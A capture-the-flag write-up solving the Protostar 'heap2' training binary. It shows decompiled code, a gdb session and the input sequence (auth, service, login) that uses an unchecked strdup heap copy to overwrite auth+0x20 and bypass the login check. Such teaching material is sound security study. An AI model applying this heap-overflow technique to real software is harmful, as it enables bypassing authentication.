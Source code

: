 # Protostar Heap 2

Let's take a look at the binary. Also this challenge is a bit different, the goal is to get it to print `you have logged in already!`:

```
$    file heap2
heap2: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=fb7e2a85c0ae98fe79c4fddcd2a5ce4f2d6807bb, not stripped
$    ./heap2
[ auth = (nil), service = (nil) ]
```

So we can see that we are dealing with a `64` bit binary that when we run it, it looks like it displays some sort of menu to us that takes in input via stdin. Taking a look at the main function in Ghidra, we see this:

```
undefined8 main(void)

{
  int authCheck;
  int resetCheck;
  int serviceCheck;
  int loginCheck;
  char *bytesRead;
  size_t lenInput;
  long in_FS_OFFSET;
  char input [5];
  char acStack147 [2];
  char acStack145 [129];
  long canary;
 
  canary = *(long *)(in_FS_OFFSET + 0x28);
  while( true ) {
    printf("[ auth = %p, service = %p ]\n",auth,service);
    bytesRead = fgets(input,0x80,stdin);
    if (bytesRead == (char *)0x0) break;
    authCheck = strncmp(input,"auth ",5);
    if (authCheck == 0) {
      auth = (char *)malloc(8);
      memset(auth,0,8);
      lenInput = strlen(acStack147);
      if (lenInput < 0x1f) {
        strcpy(auth,acStack147);
      }
    }
    resetCheck = strncmp(input,"reset",5);
    if (resetCheck == 0) {
      free(auth);
    }
    serviceCheck = strncmp(input,"service",6);
    if (serviceCheck == 0) {
      service = strdup(acStack145);
    }
    loginCheck = strncmp(input,"login",5);
    if (loginCheck == 0) {
      if (*(int *)(auth + 0x20) == 0) {
        puts("please enter your password");
      }
      else {
        puts("you have logged in already!");
      }
    }
  
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  
  return 0;
}
```

So looking at the main function, we see that the menu has four separate options `auth/reset/service/login`. This loop runs in a while true loop, which it will scan in `0x80` bytes into `input` with `fgets`. For each iteration of the loop in the beginning, it will print the address of `auth` and `service`. Looking at the `auth` command, we see that it will allocate an eight byte chunk with malloc and set `auth` equal to it. Then it will check if our input past `auth ` is lesser than `0x1f`, and if it is it will copy it to `auth`. Looking at the `reset` option, we see that it just frees `auth` (does not clear the address). Looking at the `service` option we can see that it runs `strdup` on `acStack145`. This is a bit weird, however looking at the stack layout we can see that it is `7` bytes away from the start of our input stored in `input`. So it is running `strdup` on `input+7`, which will just duplicate our input past `service` and store it in the heap. There is no size checking with this one. Finally we have the `login` function. It just checks to see if the integer stored at `auth+0x20` is equal to zero, and if it's not then we solve the challenge (goal of this challenge is to get it to print `you have logged in already!`).

So looking at the code, we need to find a way to set `auth+0x20` to not be equal to `0`. Before we do that, we will need to run the `auth` command to allocate the `auth` pointer, so it doesn't crash when we run the `login` command (an unexploitable crash). We can't write to `auth+0x20` with the `auth` command because of the size check. The `reset` command just frees the space, so we can't write data with that (although when we free memory, it can change some of the values stored in that region of memory). Our best bet would be to go with the `service` command since it let's us scan in data into the heap without a size check. We can confirm that it is in the heap by checking the printed pointer for `service` against the memory mappings in gdb:

```
gef➤  r
Starting program: /Hackery/pod/modules/heap_overflow/protostar_heap2/heap2
[ auth = (nil), service = (nil) ]
auth 15935728
[ auth = 0x555555757a80, service = (nil) ]
service 75395128
[ auth = 0x555555757a80, service = 0x555555757aa0 ]
^C
Program received signal SIGINT, Interrupt.
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0xfffffffffffffe00
$rbx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rcx   : 0x00007ffff7af4081  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x400             
$rsp   : 0x00007fffffffdd38  →  0x00007ffff7a71148  →  <_IO_file_underflow+296> test rax, rax
$rbp   : 0xd68             
$rsi   : 0x0000555555757670  →  "service 75395128"
$rdi   : 0x0               
$rip   : 0x00007ffff7af4081  →  0x5777fffff0003d48 ("H="?)
$r8    : 0x00007ffff7dd18c0  →  0x0000000000000000
$r9    : 0x00007ffff7fda4c0  →  0x00007ffff7fda4c0  →  [loop detected]
$r10   : 0x00007ffff7fda4c0  →  0x00007ffff7fda4c0  →  [loop detected]
$r11   : 0x246             
$r12   : 0x00007ffff7dcb760  →  0x0000000000000000
$r13   : 0x00007ffff7dcc2a0  →  0x0000000000000000
$r14   : 0x00007ffff7dcc2a0  →  0x0000000000000000
$r15   : 0x7f              
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd38│+0x0000: 0x00007ffff7a71148  →  <_IO_file_underflow+296> test rax, rax     ← $rsp
0x00007fffffffdd40│+0x0008: 0x00007ffff7dcfa00  →  0x00000000fbad2288
0x00007fffffffdd48│+0x0010: 0x00007ffff7dcc2a0  →  0x0000000000000000
0x00007fffffffdd50│+0x0018: 0x000000000000000a
0x00007fffffffdd58│+0x0020: 0x0000555555757681  →  0x0000000000000000
0x00007fffffffdd60│+0x0028: 0x00007ffff7dcfa00  →  0x00000000fbad2288
0x00007fffffffdd68│+0x0030: 0x00007ffff7a723f2  →  <_IO_default_uflow+50> cmp eax, 0xffffffff
0x00007fffffffdd70│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7ffff7af4075 <read+5>         add    BYTE PTR cs:[rbx+0x75c08500], cl
   0x7ffff7af407c <read+12>        adc    esi, DWORD PTR [rcx]
   0x7ffff7af407e <read+14>        ror    BYTE PTR [rdi], 0x5
 → 0x7ffff7af4081 <read+17>        cmp    rax, 0xfffffffffffff000
   0x7ffff7af4087 <read+23>        ja     0x7ffff7af40e0 <__GI___libc_read+112>
   0x7ffff7af4089 <read+25>        repz   ret
   0x7ffff7af408b <read+27>        nop    DWORD PTR [rax+rax*1+0x0]
   0x7ffff7af4090 <read+32>        push   r12
   0x7ffff7af4092 <read+34>        push   rbp
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "heap2", stopped, reason: SIGINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7af4081 → __GI___libc_read(fd=0x0, buf=0x555555757670, nbytes=0x400)
[#1] 0x7ffff7a71148 → _IO_new_file_underflow(fp=0x7ffff7dcfa00 <_IO_2_1_stdin_>)
[#2] 0x7ffff7a723f2 → __GI__IO_default_uflow(fp=0x7ffff7dcfa00 <_IO_2_1_stdin_>)
[#3] 0x7ffff7a63e62 → __GI__IO_getline_info(eof=0x0, extract_delim=<optimized out>, delim=0xa, n=0x7f, buf=0x7fffffffde10 "service 75395128\n", fp=0x7ffff7dcfa00 <_IO_2_1_stdin_>)
[#4] 0x7ffff7a63e62 → __GI__IO_getline(fp=0x7ffff7dcfa00 <_IO_2_1_stdin_>, buf=0x7fffffffde10 "service 75395128\n", n=<optimized out>, delim=0xa, extract_delim=0x1)
[#5] 0x7ffff7a62bcd → _IO_fgets(buf=0x7fffffffde10 "service 75395128\n", n=<optimized out>, fp=0x7ffff7dcfa00 <_IO_2_1_stdin_>)
[#6] 0x5555555549de → main()
────────────────────────────────────────────────────────────────────────────────
0x00007ffff7af4081 in __GI___libc_read (fd=0x0, buf=0x555555757670, nbytes=0x400) at ../sysdeps/unix/sysv/linux/read.c:27
27    ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-x /Hackery/pod/modules/heap_overflow/protostar_heap2/heap2
0x0000555555755000 0x0000555555756000 0x0000000000001000 r-- /Hackery/pod/modules/heap_overflow/protostar_heap2/heap2
0x0000555555756000 0x0000555555757000 0x0000000000002000 rw- /Hackery/pod/modules/heap_overflow/protostar_heap2/heap2
0x0000555555757000 0x0000555555778000 0x0000000000000000 rw- [heap]
0x00007ffff79e4000 0x00007ffff7bcb000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd1000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 0x0000000000000000 rw-
0x00007ffff7dd5000 0x00007ffff7dfc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7fd9000 0x00007ffff7fdb000 0x0000000000000000 rw-
0x00007ffff7ff7000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000027000 r-- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000028000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  
```

Here we can see that the `service` pointer (returned by `strdup`) is between `0x0000555555757000` and `0x0000555555778000`, so it is in the heap. So our plan will be to overwrite `auth+0x20` using the service command. Looking at the difference between the two, we see it is `0x555555757aa0 - 0x555555757a80 = 0x20`, so the `service` command after we run `auth` will start writing data directly where we need to be, so in this case we only need to write one byte. With that, we have everything we need:

```
$    ./heap2
[ auth = (nil), service = (nil) ]
auth 15935728
[ auth = 0x55b20955da80, service = (nil) ]
login
please enter your password
[ auth = 0x55b20955da80, service = (nil) ]
service 0
[ auth = 0x55b20955da80, service = 0x55b20955daa0 ]
login
you have logged in already!
[ auth = 0x55b20955da80, service = 0x55b20955daa0 ]
```

With that, we solved the challenge (also just in case you're confused, the `0` we overwrite `auth+0x20` is an ascii zero so it would write `0x30` not `0x0`).
